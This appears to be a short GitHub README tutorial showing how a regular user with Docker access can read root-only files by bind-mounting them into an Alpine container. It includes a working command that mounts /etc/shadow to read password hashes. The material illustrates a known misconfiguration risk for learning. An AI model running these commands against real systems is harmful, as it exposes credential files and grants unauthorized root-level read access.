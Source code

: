 # Privilege Escalation Using Docker Containers

## Prerequisites

- [Docker](https://docs.docker.com/engine/install/)

## Quick Start

1. Create a new file as the `root` user.

    ```bash
    sudo -i # login as root
    echo "supersecret" > /tmp/secret.txt
    chmod 600 /tmp/secret.txt
    ```

2. List files and read `secret.txt` content as root.

    ```bash
    # list files in current directory
    ls -lhr /tmp/secret.txt
    total 8.0K
    -rw------- 1 root   root     12 Jan 17 23:14 secret.txt
    # show content of file
    cat /tmp/secret.txt
    supersecret
    exit # logout from root
    ```

3. Using a regular user (non-root) account try to display the content of the `secret.txt` file.

    ```bash
    cat /tmp/secret.txt
    cat: secret.txt: Permission denied
    ```

4. Using a regular user (non-root) account run a docker container and mount the `secret.txt` file to read the content.

    ```bash
    docker run -v "/tmp/secret.txt:/tmp/secret.txt" -it alpine sh -c "cat /tmp/secret.txt"
    supersecret
    # you can do the same with the /etc/shadow file
    docker run -v "/etc/shadow:/tmp/shadow" -it alpine sh -c "cat /tmp/shadow"
    ```

5. Inspect who's running the docker container using the `ps` command.

    ```bash
    # using a regular user account run the following
    docker run -it alpine sh -c "sleep 3600"
    # in a different terminal run the ps command
    docker ps -a
    # replace $CONTAINER_ID for the actual container id
    ps -aux | grep $CONTAINER_ID
    # stop the alpine container
    docker stop $CONTAINER_ID
    ```

## Resouces

- <https://kind.sigs.k8s.io/docs/user/configuration/>
